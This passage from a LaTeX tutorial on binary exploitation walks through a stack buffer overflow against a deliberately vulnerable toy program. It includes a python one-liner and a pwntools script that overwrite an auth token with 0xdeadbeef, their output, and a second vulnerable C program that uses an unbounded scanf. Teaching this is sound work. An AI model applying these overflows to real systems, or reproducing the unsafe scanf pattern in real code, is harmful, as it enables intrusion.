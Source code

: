 When we follow the 'A' characters with \texttt{0xef 0xbe 0xad 0xde},
\texttt{scanf()} writes \texttt{0xdeadbeef} to \texttt{a.token}, which causes
the program to call \texttt{win()}! Let's verify that it works without the
debugger as well.

\begin{lstlisting}
> python -c "print 'A' * 64 + '\xef\xbe\xad\xde'" | ./memory_corruption
Enter the password:
Access granted.
>
\end{lstlisting}

An implementation of this solution in \texttt{pwntools} is below.

\begin{lstlisting}
#!/usr/bin/python
from pwn import *

p = process("./memory_corruption")
p.sendline("A" * 64 + p32(0xdeadbeef))
print p.recv()
\end{lstlisting}

And the output when it is run:

\begin{lstlisting}
> ./memory_corruption_solution.py
[+] Starting local process './memory_corruption': pid 1531
[*] Process './memory_corruption' stopped with exit code 0 (pid 1531)
Enter the password:
Access granted.

> 
\end{lstlisting}

This strategy is severely limited by the fact that it relies on the buffer being
allocated to a lower address than the token. However, we can still exploit the
unsafe call to \texttt{scanf()} without relying on this. Recall that whenever
a function (including \texttt{main()}) is called, the calling function stores a
return address is stored on the stack as part of the calling convention. After
the callee finishes executing, control resumes from the instruction located at
the return address. Therefore, if we can leverage the unsafe call to
\texttt{scanf()} to overwrite the return address with the location of
\texttt{win()}, we can call it regardless of the order of the local variables.
We'll try this technique on the program below.

\begin{lstlisting}
#include <stdio.h>
#include <string.h>

void empty(void) {
    printf("You don't have permission to perform this action.\n");
}

void win(void) {
    printf("Access granted.\n");
}

void lose(void) {
    printf("Invalid auth token.\n");
}

typedef struct auth {
    long int token;
    char buf[64];
} auth;

int main(void) {
    auth a;
    memset(a.buf, 0, 64);
    a.token = 0;

    printf("Enter the password:\n");
    scanf("%s", a.buf);

    if (a.token == 0) {
        empty();
    } else if (a.token == 0xdeadbeef) {
        win();
    } else {
        lose();
    }
}
\end{lstlisting}

